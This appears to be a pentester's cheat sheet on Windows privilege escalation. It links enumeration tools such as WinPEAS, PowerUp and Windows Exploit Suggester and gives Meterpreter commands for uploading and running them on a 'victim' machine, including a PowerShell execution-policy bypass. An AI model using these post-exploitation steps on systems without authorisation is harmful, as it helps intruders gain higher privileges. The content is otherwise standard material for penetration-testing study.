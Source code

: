 ## Executables

### WinPEAS 
[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

```sh
 meterpreter>> 
 >> cd c:\\windows\tmp
 >> upload <~/path/to/winPeasfile>
 >> pwd
 >> 
 >> shell
 >>> winPEAS.exe
 
 # if nothing happens after running, check .net version support in the windows. This script wont work if the machine doesnt support dotnet v4.
```

### Seatbelt 
[https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)

### Watson 
[https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

### SharpUp 
[https://github.com/GhostPack/SharpUp](https://github.com/GhostPack/SharpUp)


## PowerShell

### Sherlock 
[https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)

### PowerUp 
[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
```sh
meterpreter>> 
>> shell
>>> powershell -p bypass
# if the session hangs or dont response, then its windows blicking the powershell from running. Might have to restart the session.

# Alternate method to run powershell using metasploit.
Meterpreter>>
>> load powershell
# try to get powershell this way. if this fails then windows will be blocking it.

# Powesploit commands not added. Add later.
```

### JAWS 
[https://github.com/411Hall/JAWS](https://github.com/411Hall/JAWS)


## Others

### Windows Exploit Suggester 
[https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
```sh

meterpreter>>
>> shell
>> systeminfo
# Copy the systeminfo of victim mahine and save it ina text file to feed it to exploit suggester later.


# Clone the repository from github to local machine<attacker machine>

# Update the tool
> ./windows-exploit-suggester.py --update
# After update, current database (dbname-mssb.xls) will be printed out in the output. will have to use later.

# upgrade the xlrd
> pip install xlrd --upgrade

>./windows_exploit_suggester.py --database <current db-mssb.xls> --systeminfo <sysinfofile.txt>
```

### Metasploit Local Exploit Suggester 
[https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/)
```sh
meterpreter>>
>> run post/multi/recon/local_exploit_suggester

# Ta Da !! 
# Copy and keep all the exploitable vulnerabilities from metasploit exploit suggester in a file for later use.

# also save the system information in a text file for later use.

>> shell
>> systeminfo
```

## Checklist

### Windows PrivEsc Checklist 
[https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)